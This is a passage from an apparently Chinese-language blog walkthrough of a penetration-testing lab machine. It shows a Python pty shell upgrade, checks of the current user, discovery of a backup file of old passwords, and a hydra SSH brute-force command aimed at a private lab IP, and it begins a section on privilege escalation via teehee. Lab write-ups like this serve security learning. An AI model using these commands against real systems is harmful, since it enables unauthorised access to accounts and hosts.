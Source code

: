 
```
python -c "import pty;pty.spawn('/bin/bash')"

```

<img src="https://img-blog.csdnimg.cn/c44afc105f0146ec9f27cf3f3b670f24.png" alt="在这里插入图片描述">

### 10、teehee提权

>  
 这个靶机可以使用exim4提权也可以使用teehee提权，两种提权方式选择一种即可，这里我两种提权方式都有些到 


#### 1、查看当前权限

>  
 查看当前权限，不是root权限 


```
id 
Whoami

```

<img src="https://img-blog.csdnimg.cn/42b3f5cb858f4a7387fdb992dc08b17d.png" alt="在这里插入图片描述">

#### 2、发现old-passwords.bak文件

>  
 查看系统里面有什么文件 在/home/jim/backups下看到一个old-passwords.bak文件，看名字应该是一堆密码，而且是jim用户使用过的密码 


<img src="https://img-blog.csdnimg.cn/3603ab32aff847709c10572c8bab3fda.png" alt="在这里插入图片描述">

>  
 打开看一下发现一堆密码 


<img src="https://img-blog.csdnimg.cn/14af5a48008746c68ba90db03931ca44.png" alt="在这里插入图片描述">

>  
 感觉可以做爆破字典 把文件保存下来 


<img src="https://img-blog.csdnimg.cn/1c1298f6f378460d9aa103c6e4f13180.png" alt="在这里插入图片描述">

#### 3、爆破出jim的ssh密码

>  
 使用hydra爆破一下ssh密码 


```
hydra -l jim -P /root/Desktop/old-passwords.bak.txt 192.168.233.180 ssh

```
